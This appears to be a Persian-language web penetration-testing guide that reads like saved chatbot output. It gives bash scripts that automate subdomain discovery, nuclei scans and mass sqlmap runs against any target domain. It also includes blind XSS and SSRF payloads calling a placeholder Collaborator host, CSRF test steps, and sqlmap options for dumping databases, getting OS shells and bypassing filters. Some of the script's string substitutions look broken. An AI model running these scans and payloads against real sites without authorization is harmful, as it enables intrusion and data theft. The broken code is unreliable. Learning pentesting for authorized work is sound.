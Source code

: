 برای آسان‌تر و حرفه‌ای‌تر کردن فرایند تست نفوذ وب، می‌توانید از اسکریپت‌های پیشرفته‌تر و راهنمای گام‌به‌گام استفاده کنید که ترکیبی از ابزارهای قدرتمند مثل Burp Suite و SQLMap را در بر می‌گیرند. همچنین منابع آموزشی فارسی و ویدیویی معتبر به شما کمک می‌کنند سریع‌تر یاد بگیرید و تست‌ها را اجرا کنید.

1. نمونه اسکریپت پیشرفته برای اتوماتیک‌سازی تست نفوذ وب
```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo "Usage: $0 target.com"
  exit 1
fi

target=$1

echo "[*] Discovering subdomains with subfinder..."
subfinder -d $target -silent | sort -u > subdomains.txt

echo "[*] Checking live domains with httpx..."
cat subdomains.txt | httpx -silent -threads 50 > live_domains.txt

echo "[*] Extracting URLs from Wayback Machine..."
cat live_domains.txt | waybackurls | sort -u > urls.txt

echo "[*] Running nuclei scan for vulnerabilities..."
cat urls.txt | nuclei -silent -t /path/to/nuclei-templates/ -o nuclei_results.txt

echo "[*] Running SQLMap on URLs with parameters..."
grep -E '\?.+=' urls.txt | while read url; do
  echo "[*] Testing SQL Injection on $url"
  sqlmap -u "$url" --batch --level=3 --risk=2 --threads=10 --random-agent --output-dir=./sqlmap_output
done

echo "[*] Scan completed. Check nuclei_results.txt and sqlmap_output for details."
```

این اسکریپت با ترکیب ابزارهای subfinder, httpx, waybackurls, nuclei و sqlmap، فرایند جمع‌آوری اطلاعات و اسکن آسیب‌پذیری‌ها را اتوماتیک می‌کند.

می‌توانید آن را با Burp Suite ترکیب کنید تا تست‌های دستی دقیق‌تر انجام دهید.

2. راهنمای گام‌به‌گام کار با بخش‌های کلیدی Burp Suite
Proxy: ترافیک مرورگر را رهگیری و تغییر دهید.

Repeater: درخواست‌ها را دستی تغییر داده و ارسال کنید (مناسب برای تست XSS، SQLi).

Intruder: حملات خودکار با پیلودهای مختلف (Brute Force، Fuzzing).

Scanner (نسخه Pro): اسکن خودکار آسیب‌پذیری‌های رایج.

Extender: افزودن افزونه‌های کاربردی از Burp App Store.

Collaborator: تست‌های پیشرفته Out-of-Band (OOB).

نکته:
برای شروع، روی Proxy و Repeater تمرکز کنید و پس از تسلط، از Intruder و Scanner استفاده کنید.

3. نکات مهم برای استفاده حرفه‌ای از SQLMap
تست SQL Injection روی پارامترهای GET و POST

استفاده از گزینه‌های --batch, --level, --risk برای تنظیم شدت تست

استخراج دیتابیس، جداول، ستون‌ها و داده‌ها

اجرای دستورات سیستم عامل در صورت امکان

استفاده از فایل‌های پیلود سفارشی برای تست‌های خاص

4. منابع آموزشی فارسی و ویدیویی برای یادگیری سریع‌تر
دوره آموزش تست نفوذ وب (وب هکینگ) در لرن فایلز

ویدیو آموزش Burp Suite در آپارات

مقاله و آموزش SQLMap در pentestcore.com

مقاله معرفی و آموزش Burp Suite در سایفکس

5. پیشنهاد برای تسریع فرایند تست نفوذ
ابتدا با اسکریپت اتوماتیک بالا، اطلاعات و آسیب‌پذیری‌های اولیه را جمع‌آوری کنید.

سپس با Burp Suite تست‌های دستی و دقیق‌تر را انجام دهید.

در نهایت با SQLMap روی پارامترهای مشکوک SQLi کار کنید.

از افزونه‌های Burp Suite برای تست‌های خاص بهره ببرید.

همیشه گزارش دقیق و مستند تهیه کنید.


=================================================================================================

برای شما یک راهنمای جامع و نمونه اسکریپت‌های تخصصی‌تر برای تست آسیب‌پذیری‌های خاص مثل XSS، SSRF، CSRF و همچنین راهنمای گام‌به‌گام استفاده از بخش‌های پیشرفته Burp Suite و SQLMap آماده کرده‌ام که فرایند تست نفوذ را بسیار آسان‌تر و حرفه‌ای‌تر می‌کند.

1. اسکریپت تخصصی برای تست XSS با Burp Suite و Burp Collaborator
نمونه پیلود XSS با Burp Collaborator (Blind XSS)
xml
<script src="https://your-collaborator-id.burpcollaborator.net"></script>
این پیلود را در ورودی‌های مختلف سایت تزریق کنید (فرم‌ها، هدرها، کوکی‌ها).

اگر سرور به Burp Collaborator درخواست ارسال کند، یعنی آسیب‌پذیری Blind XSS وجود دارد.

در Burp Suite از منوی Burp Collaborator client، لاگ‌های دریافت شده را مشاهده کنید.

اتومیشن حمله XSS با Burp Suite Intruder
درخواست را در Proxy رهگیری کنید.

آن را به Intruder ارسال کنید.

پارامتر هدف را انتخاب و Payloadها را با انواع پیلودهای XSS (مثل <script>alert(1)</script>) پر کنید.

حمله را اجرا و پاسخ‌ها را تحلیل کنید.

2. اسکریپت نمونه برای تست SSRF (Blind SSRF با استفاده از Burp Collaborator)
bash
# نمونه payload برای تزریق SSRF
http://your-target.com/api?url=http://your-collaborator-id.burpcollaborator.net
پارامترهای URL یا هر ورودی که سرور درخواست HTTP ارسال می‌کند را هدف قرار دهید.

اگر سرور به دامنه Burp Collaborator درخواست ارسال کند، SSRF تایید می‌شود.

3. تست CSRF با Burp Suite
گام‌های تست CSRF
درخواست POST حساس (مثلاً تغییر رمز عبور) را در Burp Proxy رهگیری کنید.

درخواست را به Repeater ارسال کنید.

هدر Origin یا Referer را حذف یا تغییر دهید.

درخواست را ارسال کنید و بررسی کنید که آیا سرور درخواست بدون این هدرها را قبول می‌کند یا خیر.

اگر بدون اعتبارسنجی CSRF قبول شد، آسیب‌پذیری وجود دارد.

اتوماسیون تست CSRF با Burp Intruder
پارامترهای توکن CSRF را حذف یا تغییر دهید.

واکنش سرور را بررسی کنید.

4. راهنمای گام‌به‌گام استفاده پیشرفته از Burp Suite
Proxy: رهگیری و ویرایش درخواست‌ها

Repeater: تست دستی و تغییر پارامترها

Intruder: حملات خودکار با پیلودهای سفارشی

Scanner (نسخه Pro): اسکن خودکار آسیب‌پذیری‌ها

Collaborator: کشف آسیب‌پذیری‌های Out-of-Band مثل Blind XSS و SSRF

Extender: افزودن افزونه‌های تخصصی برای تست‌های خاص

Sequencer: تحلیل امنیت توکن‌ها و نشست‌ها

Comparer: مقایسه درخواست‌ها و پاسخ‌ها برای تحلیل دقیق‌تر

5. راهنمای استفاده پیشرفته SQLMap
تست SQL Injection روی پارامترهای GET و POST

استفاده از گزینه‌های پیشرفته:

--level=5 و --risk=3 برای تست عمیق‌تر

--technique=BEUSTQ برای انتخاب تکنیک‌های خاص

--dump برای استخراج داده‌ها

--os-shell یا --os-pwn برای بهره‌برداری از سیستم عامل

استفاده از فایل‌های پیلود سفارشی با --tamper برای دورزدن فیلترها

اجرای تست روی چندین URL به صورت خودکار با اسکریپت Bash

6. نمونه اسکریپت Bash برای اتوماتیک‌سازی تست XSS، SSRF و CSRF با Burp Suite و SQLMap
```bash
#!/bin/bash

target=$1
collaborator="your-collaborator-id.burpcollaborator.net"

if [ -z "$target" ]; then
  echo "Usage: $0 target.com"
  exit 1
fi

echo "[*] Starting subdomain enumeration..."
subfinder -d $target -silent > subdomains.txt

echo "[*] Checking live hosts..."
cat subdomains.txt | httpx -silent > live_hosts.txt

echo "[*] Extracting URLs for testing..."
cat live_hosts.txt | waybackurls | sort -u > urls.txt

echo "[*] Injecting XSS payloads with Collaborator..."
while read url; do
  if [[ "$url" == *"="* ]]; then
    xss_payload="<script src='https://$collaborator'></script>"
    test_url="${url/$url#*=/$xss_payload}"
    echo "Testing $test_url"
    curl -s "$test_url" > /dev/null
  fi
done < urls.txt

echo "[*] Testing SSRF with Collaborator..."
ssrf_payload="http://$collaborator"
# نمونه تست روی پارامترهای URL که شامل url یا redirect هستند
grep -E 'url=|redirect=' urls.txt | while read url; do
  test_url="${url/=(*)/=$ssrf_payload}"
  curl -s "$test_url" > /dev/null
done

echo "[*] Running SQLMap on URLs with parameters..."
grep -E '\?.+=' urls.txt | while read url; do
  echo "Running sqlmap on $url"
  sqlmap -u "$url" --batch --level=3 --risk=2 --threads=10 --random-agent --output-dir=./sqlmap_output
done

echo "[*] Manual CSRF testing recommended with Burp Suite Repeater and Intruder."
```
7. منابع آموزشی فارسی و ویدیویی معتبر
معرفی جامع Burp Suite و آموزش استفاده از ماژول‌های مختلف:
امنافزار رایکا - آموزش Burp Suite

آموزش اتوماسیون حملات XSS با Burp Suite:
ویرگول - آموزش XSS با Burp Suite

آموزش کامل SQLMap و تست SQL Injection:
PentestCore - آموزش SQLMap

دوره ویدیویی جامع Burp Suite:
LearnFiles - آموزش Burp Suite

